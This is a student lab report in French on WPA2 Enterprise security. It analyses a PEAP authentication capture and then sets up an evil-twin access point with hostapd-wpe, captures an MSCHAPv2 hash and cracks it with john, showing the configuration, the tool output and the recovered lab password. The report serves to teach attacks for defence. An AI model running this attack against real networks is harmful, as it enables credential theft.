


# Sécurité des réseaux sans fil - Laboratoire WPA2 Entreprise

## Authors
* Emmanuel Schmid
* Théo Gallandat
* Fabien Franchini

## 1. Capture et analyse d’une authentification WPA Entreprise

Dans cette première partie, nous allons capturer une connexion WPA Entreprise au réseau de
l’école avec Wireshark et fournir des captures d’écran indiquant dans chaque capture les
données demandées.

### Identifier le canal utilisé par l’AP dont la puissance est la plus élevée.
Vous pouvez fairececi avec airodump-ng, par exemple. Channel 1


### Requête et réponse d’authentification système ouvert

Le schéma ci-dessus représente une authentification système ouverte. On retrouve :   

#### La requête

#### La réponse


### Requête et réponse d’association

Le schéma ci-dessus représente une association système ouverte. On retrouve :   
### La requête

### La réponse


### Phase d’initialisation

Le schéma ci-dessous repésente la phase d'initialisation

#### Sélection de la méthode d’authentification
Le protocole d’authentification est PEAP comme le montre la capture suivante :


#### Arrivez-vous à voir l’identité du client ?
> Oui, se référer au screen suivant.


### Phase hello

Le schéma ci-dessous représente la **phase Hello** entre le client et l'AP.
#### Client

> Dans l'ordre des encadrés rouges sur le screen ci-dessus, on retrouve : 
* Version TLS
* Nonce
* Suites cryptographiques proposées par le client 
* Méthodes de compression proposées par le client : null

#### Serveur


> Dans l'ordre des encadrés rouges sur le screen ci-dessus, on retrouve : 
* Version TLS
* Nonce
* Session ID
* Suites cryptographiques acceptées par l’AP
* Méthodes de compression acceptées par l'AP : null


### Phase de transmission de certificats
* Certificat serveur

* Change cipher spec


### Authentification interne et transmission de la clé WPA
(échange chiffré, vucomme « Application data »)


### 4 way hadshake
Le schéma ci-dessous représente le **4 way hadshake**.

Le screen ci-dessous repésente le 4 way hadshake capturé.


### Questions

1. Quelle ou quelles méthode(s) d’authentification est/sont proposé(s) au client ? 
> * EAP-TLS
* EAP-PEAP

2. Quelle méthode d’authentification est utilisée ?
> * EAP-PEAP

3. Lors de l’échange de certificats entre le serveur d’authentification et le client :

  * Le serveur envoie un certificat au client ? Oui


  * Le client envoie un certificat au serveur ? Non


  c. Les deux s’échangent des certificats ? Non


## 2. Attaque WPA Entreprise

4. Quelles modifications sont nécessaires dans la configuration de hostapd-wpe pour cette attaque ?

Extrait de `/etc/hostapd-wpe/hostapd-wpe.conf`
```
# Configuration file for hostapd-wpe

# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0

# May have to change these depending on build location
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=whatever
dh_file=/etc/hostapd-wpe/certs/dh

# 802.11 Options
ssid=hostapd-wpe
channel=1
```

On peut donc choisir l'interface, le ssid et le channel. Ici les modifications nécessaires ont été l'interface, et il faudrait aussi modifier le nom du ssid pour qu'il colle au nom du réseau dont on veut crée un `evil twin`. Ici de manière partique nous avons pas changer le ssid.

5. Quel type de hash doit-on indiquer à john pour craquer le handshake ?

Output de l'exécution de `hostapd-wpe`:
```
root@kali:~# hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
Configuration file: /etc/hostapd-wpe/hostapd-wpe.conf
Using interface wlan0 with hwaddr 00:c0:ca:8f:d9:e6 and ssid "hostapd-wpe"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
wlan0: STA 94:65:2d:a4:34:92 IEEE 802.11: associated
wlan0: CTRL-EVENT-EAP-STARTED 94:65:2d:a4:34:92
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Thu May 17 07:04:03 2018
	 username:	getting_hacked
	 challenge:	7a:46:19:94:04:65:7c:58
	 response:	74:2e:95:a4:03:a3:44:26:28:62:44:f1:cb:45:b2:a1:97:e6:d5:9f:f3:70:a1:2c
	 jtr NETNTLM:	getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c
```

On lui donne un hahs de type `netntlm`, ici `getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c` :
```
john --format=netntlm hash.txt                                                                                 
Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 128/128 AVX 12x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
mdpasse          (getting_hacked)
1g 0:00:02:14 DONE 3/3 (2018-05-17 18:13) 0.007448g/s 29557Kp/s 29557Kc/s 29557KC/s mdpatkh..mdpageo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le mot de passe est donc : `mdpasse`

6. Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
  * EAP-FAST/MSCHAPv2 (Phase 0)
  * PEAP/MSCHAPv2
  * EAP-TTLS/MSCHAPv2
  * EAP-TTLS/MSCHAP
  * EAP-TTLS/CHAP
  * EAP-TTLS/PA
